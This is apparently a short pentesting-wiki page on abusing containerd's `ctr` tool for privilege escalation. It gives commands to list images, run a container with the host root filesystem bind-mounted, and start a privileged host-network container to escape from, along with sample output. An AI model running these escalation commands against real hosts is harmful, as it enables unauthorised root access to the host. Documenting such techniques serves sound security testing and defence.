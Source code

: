 ## Basic information

Go to the following link to learn what is containerd and `ctr`:

## PE 1

if you find that a host contains the `ctr` command:

```
which ctr
/usr/bin/ctr
```

You can list the images:

```
ctr image list
REF                                  TYPE                                                 DIGEST                                                                  SIZE      PLATFORMS   LABELS 
registry:5000/alpine:latest application/vnd.docker.distribution.manifest.v2+json sha256:0565dfc4f13e1df6a2ba35e8ad549b7cb8ce6bccbc472ba69e3fe9326f186fe2 100.1 MiB linux/amd64 -      
registry:5000/ubuntu:latest application/vnd.docker.distribution.manifest.v2+json sha256:ea80198bccd78360e4a36eb43f386134b837455dc5ad03236d97133f3ed3571a 302.8 MiB linux/amd64 -      
```

And then run one of those images mounting the host root folder to it:

```
ctr run --mount type=bind,src=/,dst=/,options=rbind -t registry:5000/ubuntu:latest ubuntu bash
```

## PE 2

Run a container privileged and escape from it.
You can run a privileged container as:

```
 ctr run --privileged --net-host -t registry:5000/modified-ubuntu:latest ubuntu bash
```

Then you can use some of the techniques mentioned in the following page to escape from it abusing privileged capabilities: